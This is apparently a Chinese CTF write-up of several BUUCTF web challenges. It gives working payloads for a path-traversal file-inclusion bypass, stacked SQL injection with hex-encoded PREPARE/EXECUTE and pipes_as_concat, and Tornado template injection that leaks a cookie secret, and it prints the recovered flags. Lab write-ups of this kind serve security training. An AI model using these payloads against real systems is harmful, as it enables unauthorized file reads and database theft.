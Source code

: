 ```yaml
---
layout: page
title: "BUUCTF-WEB-WriteUp"
date: 2019-10-10 01:01
---
```


## [HCTF 2018]WarmUp
打开网址显示一个滑稽 查看源码提示`source.php`
- 打开/source.php 查看源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

- class emmm中checkFile中有一段

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

访问hint.php
显示`flag not here, and flag in ffffllllaaaagggg`
- 回去看source.php源码

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    }
```

当满足三个条件 file值不为空 file值为字符串 checkFile为真 执行file `任意文件包含`
- 前两个条件容易满足 关键checkFile返回真
此函数有多处返回真代码 可以利用的代码片段是两处
- 第一处利用代码

```php
 $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```
这一段代码条件满足字符串中`?`之前的字符串在whitelist中也就是source.php或hint.php后面紧跟../包含ffffllllaaaagggg
经测试需要四层../../../../
构造payload`?file=source.php?/../../../../ffffllllaaaagggg`或`?file=hint.php?/../../../../ffffllllaaaagggg`
- 第二处利用代码

```php

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

字符串经过一次url解码 在进行同上步骤 所以`?`两次url编码为`%253f`
构造payload`?file=source.php%253f/../../../../ffffllllaaaagggg`或`?file=hint.php%253f/../../../../ffffllllaaaagggg`
- flag{2d960f01-7d02-446e-9888-d9a08d6f266a}

## [强网杯 2019]随便注
一道SQL注入题目
堆叠注入题目(堆叠注入就是将一堆sql语句叠加在一起执行，使用分号结束上一个语句再叠加其他语句一起执行)
- `1'#`有回显 说明参数使用单引号闭合
- 紧接着确定有多少列`1' order by 2#`有回显 `1' order by 3#`报错 确定两列
- union查一下`1' union select 1,2#` 显示`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`存在关键字过滤
- 这时我们就只能试一下堆叠注入`1'; show databases#` 爆出一堆数据库 不知该下手哪一个
- 爆一下表`1'; show tables#` 两个表`1919810931114514`和`words`
- 爆一下两个表的列

```
1';desc `1919810931114514`;#
1';desc `words`;#
```

回显证明1919810931114514表是有flag列
- 没法用select直接获取flag 利用预处理 set用大小绕过
```
SET @sql = sql语句;  //设置变量
PREPARE yuchuli from @sql;   //预定义SQL语句
EXECUTE yuchuli;  //执行预定义SQL语句sqla
```
- 构造payload

```
SET @sql = select * from `1919810931114514`;
PREPARE yuchuli from @sql; 
EXECUTE yuchuli;
```
由于select被过滤 可以用0x编码sql语句
最终payload
```
1';SET @sql = 0x73656C656374202A2066726F6D20603139313938313039333131313435313460;
PREPARE yuchuli from @sql; 
EXECUTE yuchuli;#
```
- flag{2a64100c-3609-4340-99ce-a18b818d9d23}

## easy_tornado
- 打开网页显示

```
/flag.txt
/welcome.txt
/hints.txt
```
打开分别回显及对应url
```
flag in /fllllllllllllag    /file?filename=/flag.txt&filehash=1de1224fd807cf95a218e546956e98c2
render                      /file?filename=/welcome.txt&filehash=eac6557dcd24438b369890a4f2d1059a
md5(cookie_secret+md5(filename))    file?filename=/hints.txt&filehash=cf83e929dfd5900716ae2e9c2a64e715
```
- 试一下`file?filename=/fllllllllllllag&filehash=cf83e929dfd5900716ae2e9c2a64e715`报错ERROR 并且url`error?msg=Error`
- tornado框架存在handler.settings尝试`/error?msg={{handler.settings}}`
得到cookie`459f40bc-9132-48a7-a82e-9409e8d51a00`
- 根据md5(cookie_secret+md5(filename))得到filehash`97582610e7ca4534ab0858894d38a167`
- 构造payload`/file?filename=/fllllllllllllag&filehash=97582610e7ca4534ab0858894d38a167`回显flag
- flag{62662099-e484-4bd1-9ff0-7e55496fd9b1}

## [强网杯 2019]高明的黑客
下载的压缩文件 3002个php文件 打开都是垃圾代码
本题是fuzz 

## [SUCTF 2019]EasySQL
sql注入
- 输入0无回显 输入非0回显`Array ( [0] => 1 )` 输入flag回显`Nonono.`
- 输入`1'`无回显
- 堆叠注入爆表`1;show tables#`回显`Array ( [0] => 1 ) Array ( [0] => Flag )`
- 综上述判断内置的sql语句`select 输入的数据||内置的一个列名 from 表名`进一步判定`select post_data || flag from Flag`
- 这里有两种解法
第一种
```
第一种这里对字符过滤有所疏忽  譬如*就没有过滤 所以 注入`*,1` sql语句拼接成`select *,1 || flag from Flag`也就是`select *,1 from Flag`
回显`Array ( [0] => flag{3536a21c-ca9e-44ca-888b-75357b6df1c0} [1] => 1 )`
```
第二种
```
第二种才是预期解法使用`set sql_mode=pipes_as_concat;`将||变成字符串拼接而不是or 注入`1;set sql_mode=pipes_as_concat;select 1`sql语句拼接成`select 1;set sql_mode=pipes_as_concat;select 1 || flag from Flag` 其中`select 1 || flag from Flag`是将1与flag输出内容就行拼接 
回显`Array ( [0] => 1 ) Array ( [0] => 1flag{3536a21c-ca9e-44ca-888b-75357b6df1c0} )`
```
